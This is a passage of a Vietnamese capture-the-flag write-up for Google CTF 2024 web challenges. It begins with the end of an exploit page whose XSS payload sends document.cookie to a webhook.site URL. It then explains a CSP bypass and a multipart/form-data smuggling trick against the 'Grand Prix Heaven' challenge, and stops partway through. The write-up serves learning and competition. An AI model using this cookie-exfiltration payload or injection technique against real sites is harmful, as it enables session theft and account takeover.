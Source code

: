 ```html
            ifrm.contentWindow.postMessage(
                JSON.stringify({
                    "method": "render",
                    "page": ',{"html":"<img src=x onerror=\\"a = window.open(`https://sappy-web.2024.ctfcompetition.com/`); window.location=`https://webhook.site/cec28ede-90d8-41a4-9ef6-4f811d83e750/?c=${a.document.cookie}`\\" />"}'
                }), "https://sappy-web.2024.ctfcompetition.com"
            );
        })

    </script>
</html>
```

Đầu tiên ta sẽ thực hiện iframe và `postMessage` đến `sap.html` sau đó set `API.host` về `data://sappy-web.2024.ctfcompetition.com/`, rồi sau đó ở `page` trong đoạn JSON ở postMessage thứ 2 ta sẽ để payload XSS vào đó, khi gọi `fetch` lên URL này thì response trả về sẽ là đoạn JSON mà ta cài vào

## GRAND PRIX HEAVEN

Bài này thì có dính server side một chút nhưng concept cũng là client side

### TL;DR
Lợi dụng cách parse multipart/form-data của server để smuggle một field `mediaparser` vào, `mediaparser` tồn tại một sink XSS là innerHTML, ta sẽ lợi dụng một lỗi trong câu regex để bắt nó load đến media có chứa XSS payload trong exifdata và lấy flag trong cookie của bot

### Writeup

Challenge gồm 2 server với heaven_server có nhiệm vụ như một proxy thực hiện các tiền xử lý trước khi forward đến `template_server` để render nên page bằng các template có sẵn

Đầu tiên thì ta sẽ thấy sink XSS trong file `mediaparser.js`, nhưng không như `apiparser.js` thì `heaven_server` sẽ không có phép ta load `mediaparser.js` vào và cũng như bắt buộc ta phải include CSP vào trước khi tạo faves

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/83b9cd21-c5b5-4d0c-b472-42f9b4828a4e)

Ở phần CSP thì khá dễ bypass, thay vì array thì ta sẽ gửi một object với các key là các số theo dạng `{"1":"aaaa", ...}` để né index 0, để include được `mediaparser.js` thì ta sẽ nhìn vào cách mà template_server parse multipart/form-data

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/1ff4cd06-6603-4190-bf41-0f655bf7da49)

Ta thấy server dùng `\r\n\r\n` làm delimiter để split data thành một mảng và check xem mảng đó có template key (như csp, faves, retrieve, mediaparser, ...) không, nếu có thì nó sẽ include phần HTML tương ứng của template key đó vào response

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/cb30161e-5ed8-45ee-bba8-1510c79891ca)

Vậy nếu trong key mà ta gửi lên server có dạng `6\r\n\r\nmediaparser\r\n\r\n` thì sao? Lúc này ở heaven_server nó sẽ đi qua `parseInt` và trả về giá trị 6, hợp lệ, khi đến server thì được split ra thành một mảng với delim là "\r\n\r\n", lúc này array sẽ có một phần tử là `mediaparser` vì nó nằm giữa 2 delim, lúc này đoạn `lines.includes(item)` sẽ đúng và nó sẽ include `mediaparser` vào. Xong 1 phase, ở phase 2 ta sẽ tìm cách để làm cho nó load một cái media ta vừa tạo
